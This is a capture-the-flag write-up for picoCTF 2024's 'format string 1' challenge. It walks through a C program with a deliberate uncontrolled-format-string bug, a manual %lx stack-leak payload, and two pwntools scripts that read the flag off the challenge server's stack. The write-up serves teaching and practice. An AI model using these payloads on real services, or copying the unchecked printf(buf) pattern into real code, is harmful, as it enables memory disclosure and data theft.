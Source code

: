 # format string 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: SYREAL

Description:
Patrick and Sponge Bob were really happy with those orders you made for them, but now 
they're curious about the secret menu. Find it, and along the way, maybe you'll find 
something else of interest!

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 60865
 
Hints:
1. https://lettieri.iet.unipi.it/hacking/format-strings.pdf
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/434](https://play.picoctf.org/practice/challenge/434)

## Solution

### Analyse the C file

We start by analysing the C source code.
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
The program will:
- Open and read the `secret-menu-item-1.txt` file (64 bytes) into memory
- Open and read the `flag.txt` file (64 bytes) into memory
- Open and read the `secret-menu-item-2.txt` file (64 bytes) into memory
- Ask as for our order and read our answer (1024 characters) with `scanf` 
- Print the order with a `printf` statement WITHOUT any format specifier(s)

We can read data from the stack, for example 64-bit integers shown in hex-format with the `%lx` format specifier or we can read and print the N:th integer with the form `%N$lx`. This can be done manually or semi-automated.

### Get the flag offset

The offset can be found manually by inputting a long string of items of the form `<offset>:%lx<delimiter>`.  
Here I have used dots (`.`) as delimiter.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ./format-string-1                                
Give me your order and I'll read it back to you:
1:%lx.2:%lx.3:%lx.4:%lx.5:%lx.6:%lx.7:%lx.8:%lx.9:%lx.10:%lx.11:%lx.12:%lx.13:%lx.14:%lx.15:%lx.16:%lx.17:%lx.18:%lx.19:%lx.20:%lx.
Here's your order: 1:7ffd81524750.2:0.3:0.4:a.5:400.6:6d20746572636553.7:6d65746920756e65.8:a322320.9:7f6580102ab0.10:7ffd00000000.11:7ffd81524978.12:0.13:7ffd81524980.14:7b4654436f636970.15:616c665f656b6166.16:a7d67.17:0.18:0.19:7f65800f8817.20:7f6580103648.
Bye!
```
Offset 14 looks promising and is indeed the ASCII-version of the start of the flag (in reverse order due to endianness).
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ echo '7b4654436f636970' | xxd -r -p | rev
picoCTF{  
```

We can also write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to find the offset for us
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
FLAG_START = 'picoCTF{'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

for i in range(1, 25):
    io = remote(SERVER, PORT)
    log.info(f"Trying offset {i}\n")
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        # Little endian case
        res_le = p64(int(out, 16), endianness="little").decode()
        if (res_le == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with little endian at offset {i}")
        # Big endian case
        res_be = p64(int(out, 16), endianness="big").decode()
        if (res_be == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

We run the script to get the offset
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/find_offset.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
Found start of flag (picoCTF{) with little endian at offset 14  
```
Pwntools complains about my f-string that isn't bytes, but otherwise it works beautifully.  
We confirm that the flag starts at offset 14.

### Get the flag

Now that we know at which offset the flag start we can modify the script to extract the entire flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
offset = 14

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

flag = b''
keep_going = True
while keep_going:
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        res_le = p64(int(out, 16), endianness="little")
        flag += res_le
        if (b'}' in res_le):
            keep_going = False
    except Exception:
        pass
    io.recvall()
    io.close()
    offset += 1

print(flag)
```

Finally, run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/get_flag.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
b'picoCTF{<REDACTED>}\x00'
```

For additional information, please see the references below.

## References

- [Format Strings](https://lettieri.iet.unipi.it/hacking/format-strings.pdf)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [rev - Linux manual page](https://man7.org/linux/man-pages/man1/rev.1.html)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
- [Wikipedia - ASCII](https://en.wikipedia.org/wiki/ASCII)
- [Wikipedia - Endianness](https://en.wikipedia.org/wiki/Endianness)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
